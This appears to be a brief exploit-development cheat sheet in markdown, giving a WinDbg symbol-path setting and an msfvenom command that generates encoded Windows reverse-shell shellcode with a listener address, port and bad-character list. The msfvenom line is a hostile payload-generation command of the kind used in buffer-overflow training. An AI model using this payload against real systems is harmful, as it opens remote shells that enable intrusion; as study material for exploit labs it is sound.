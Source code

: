 ### Symbol Search Path
```
srv*C:\Symbols*https://msdl.microsoft.com/download/symbols
> .reload /f
```

### Shellcode msfvenom
 ```
 msfvenom -p windows/shell_reverse_tcp LHOST=192.168.100.70 LPORT=4444 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
 ```
